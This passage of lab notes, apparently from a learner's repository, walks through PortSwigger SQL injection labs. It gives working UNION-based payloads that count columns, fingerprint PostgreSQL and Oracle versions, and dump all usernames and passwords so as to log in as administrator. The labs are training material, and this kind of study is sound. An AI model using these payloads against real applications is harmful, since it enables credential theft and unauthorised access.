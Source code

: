 
 **To Solve :-**

- perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

 **Procedure :-**

1. Determine the number of column using ` ' UNION SELECT NULL, NULL -- ` ,mean it contain only 2 columns.
2. Determine which column is of text type using ` ' UNION SELECT NULL, 'a' -- `, means only 2nd column is of text type.
3. For having both username and password in same column, it have to be concatenated, and its version is to be known for concatenating syntax.
4. Try using ` ' UNION SELECT NULL, version() -- `, it shows that the SQL is of postgreSQL .
5. Now the version is know , try ` ' UNION SELECT NULL, username || ' = ' || password from users -- `, it shows the cred of all users. use administrator credential in login page and Voila.


## LAB - 7
**lab link: <https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle>**

 **Topic :-** 

- SQL injection attack, querying the database type and version on Oracle.


 **To Solve :-**

- Display the database version string.

 **Procedure :-**

1. Check for SQLi vuln by adding `'`  at end of category filter .
2. Determine the number of columns using ` ' Union Select NULL, NULL -- `, but it causes internal server , as per the quotient its oracle , it means `SELECT ` statement should contain `FROM` clause. And there is a `DUAL` table which can be use for such purpose accessible by everyone.
3. Try ` ' UNION SELECT NULL, NULL FROM DUAL -- `, it shows it contain  2 columns.
4. Determine which column is of text type using ` ' UNION SELECT 'a', 'a' FROM DUAL -- `, means both columns are of text type.
5. Then try ` ' UNION SELECT banner, NULL FROM v$version -- ` and Voila. It shows the database type and version.


## LAB - 8
**lab link: <https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft>**

 **Topic :-** 

- SQL injection attack, querying the database type and version on MySQL and Microsoft.


 **To Solve :-**

- Display the database version string.
